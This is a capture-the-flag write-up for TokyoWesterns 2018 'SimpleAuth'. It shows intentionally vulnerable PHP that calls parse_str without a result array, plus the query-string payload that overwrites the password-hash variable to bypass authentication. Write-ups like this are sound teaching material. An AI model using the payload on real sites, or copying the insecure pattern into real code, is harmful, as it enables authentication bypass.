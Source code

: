 ```yaml
---
title: SimpleAuth 
contest: TokyoWesterns CTF 4th 2018
authors: trupples
layout: writeup
---
```


## Proof of Flag
```
TWCTF{d0_n0t_use_parse_str_without_result_param}
```

## Summary
`parse_str` abuse.

## Proof of solving
Server code

```php
<?php

require_once 'flag.php';

if (!empty($_SERVER['QUERY_STRING'])) {
    $query = $_SERVER['QUERY_STRING'];
    $res = parse_str($query);
    if (!empty($res['action'])){
        $action = $res['action'];
    }
}

if ($action === 'auth') {
    if (!empty($res['user'])) {
        $user = $res['user'];
    }
    if (!empty($res['pass'])) {
        $pass = $res['pass'];
    }

    if (!empty($user) && !empty($pass)) {
        $hashed_password = hash('md5', $user.$pass);
    }
    if (!empty($hashed_password) && $hashed_password === 'c019f6e5cd8aa0bbbcc6e994a54c757e') {
        echo $flag;
    }
    else {
        echo 'fail :(';
    }
}
else {
    highlight_file(__FILE__);
}
```

## Solution
I initially tried cracking the hash and looking it up on rainbow tables but
nothing was found so I figured there's a smarter way, and there is. The PHP
function `parse_str` doesn't just return an array with the parsed data, it also
adds the parsed variables to the global scope. The solution is requesting the
page with the query string:

`?action=auth&hashed_password=c019f6e5cd8aa0bbbcc6e994a54c757e`

This way because user and pass are undefined the hash isn't recalculated and the
one used in the comparison is the one we provide.

http://simpleauth.chal.ctf.westerns.tokyo/?action=auth&hashed_password=c019f6e5cd8aa0bbbcc6e994a54c757e

```
=> TWCTF{d0_n0t_use_parse_str_without_result_param}
```
